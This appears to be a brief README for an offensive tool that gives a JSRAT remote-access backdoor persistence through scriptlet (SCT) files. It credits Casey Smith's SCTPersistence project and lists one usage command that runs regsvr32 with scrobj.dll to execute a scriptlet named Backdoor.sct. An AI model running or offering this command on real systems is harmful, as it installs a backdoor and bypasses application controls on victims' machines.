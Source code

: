 Another way of JSRAT on SCTPersistence.
---

Thanks to Casey Smith@subTee
https://github.com/subTee/SCTPersistence

---
Usage:

regsvr32.exe /s /i:Backdoor.sct scrobj.dll


 













